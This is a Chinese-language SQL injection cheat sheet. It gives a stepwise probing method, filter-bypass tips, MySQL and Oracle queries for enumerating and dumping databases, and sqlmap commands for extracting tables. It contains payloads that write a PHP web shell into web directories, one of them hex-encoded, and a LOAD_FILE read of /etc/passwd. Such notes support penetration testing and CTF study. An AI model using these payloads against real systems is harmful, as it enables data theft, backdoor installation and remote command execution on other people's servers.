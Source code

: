 1. 看有无回显 `1'"\(`
2. 逐个手动尝试 `1 and 1=1` `1'and'a'='a` `1')and('a')=('a`等
3. 判断列数 `1' order by 4-- %23`
4. 查数据 `-1' union select 1,2,3-- %23`
5. 失败考虑使用大小写、双写、等价符号替换等绕过方

```
'  ')  '))
"  ")  "))
)  ))  
```

注意：每个参数都要尝试、每个请求都要尝试、每个注入点都要尝试。

- 常用MySQL语句

```SQL
SELECT database(); # 获取当前数据库
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='<数据库名>'; # 获取数据库表名
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='<表名>'; # 获取表字段
SELECT group_concat(concat('<列名1>',':','<列名2>')) FROM '<表名>'; # 获取数据

# 写文件
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:\\xampp\\htdocs\\backdoor.php";
SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';

# 读文件
SELECT LOAD_FILE('/etc/passwd');
```

- 常用Oracle语句

```SQL
SELECT table_name FROM all_tables; # 获取数据库表名
SELECT column_name FROM all_tab_columns WHERE table_name = '<表名>'; # 获取表字段
```

- 闭合

```
'  ')  '))
"  ")  "))
)  ))  
```

- SQLmap

```shell
python sqlmap.py -r req.txt --current-db
python sqlmap.py -r req.txt --dbs
python sqlmap.py -r req.txt -D "<DB_NAME>" --tables
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" --columns
python sqlmap.py -r req.txt -D "<DB_NAME>" -T "<TABLE_NAME>" -C "<COL_1>[,COL_2]" --dump
python sqlmap.py -r req.txt --threads=10
python sqlmap.py -r req.txt --sql-query "<QUERY>"
python sqlmap.py -r req.txt --second-order
python sqlmap.py -r req.txt --suffix="-#- "
```
